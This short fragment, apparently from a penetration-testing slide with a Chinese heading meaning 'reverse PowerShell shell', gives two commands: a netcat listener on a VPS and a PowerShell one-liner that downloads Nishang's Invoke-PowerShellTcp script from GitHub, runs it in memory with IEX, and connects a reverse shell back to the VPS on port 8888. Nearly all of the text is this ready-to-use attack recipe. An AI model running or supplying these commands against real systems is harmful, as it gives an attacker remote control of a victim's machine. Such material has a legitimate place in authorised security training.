

VPS
nc -vlp 8888

反弹powershell的shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress VpsIp -port 8888